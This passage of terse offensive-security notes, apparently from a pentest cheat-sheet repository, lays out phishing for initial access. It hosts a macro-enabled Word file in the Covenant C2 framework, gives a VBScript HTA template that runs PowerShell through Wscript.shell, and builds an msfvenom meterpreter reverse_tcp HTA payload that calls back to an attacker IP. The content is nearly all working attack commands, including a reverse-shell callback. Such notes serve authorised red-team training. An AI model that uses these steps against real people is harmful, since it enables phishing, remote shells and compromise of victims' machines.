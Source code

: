 Workstation-01:
```
just drag the file to the share folder
```

> When the word file is open - enable content
it will generate a *GruntHTTP*, that means a session in our Convenant


Host the malicious file:
```
Convenant > Listeners > Hosted Files > Create > Select the file > Create
localhost/file.doc : if its openning to save the file, then is correct
```

Going on with the phishing:
```
add a link in the email redirecting to the Kali IP/file.doc > send it
everyone that opens that, will generate a shell in our Convenant
```

# Phishing with HTA / HTML

```bash
mkdir file.hta
<script language="VBScript">
Function DoStuff()
  Dim wsh
    Set wsh = CreateObject("Wscript.shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
End Function

DoStuff
self.close
</script>
```

```
copy the payload to the "powershell command here" area.
host the file in Convenant
  Convenant > Listeners > Hosted Files > Create > Select the file > Create
  localhost/file.hta : if its openning to save the file, then is correct
```

# Phishing with Metasploit
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> -f hta-psh -o file.hta
use multi/handler > set options

python3 -m http.server 80
```

make sure the link inside the email, is poiting to our kali ip/file.hta
when the file is opened - we should get a meterpreter shell
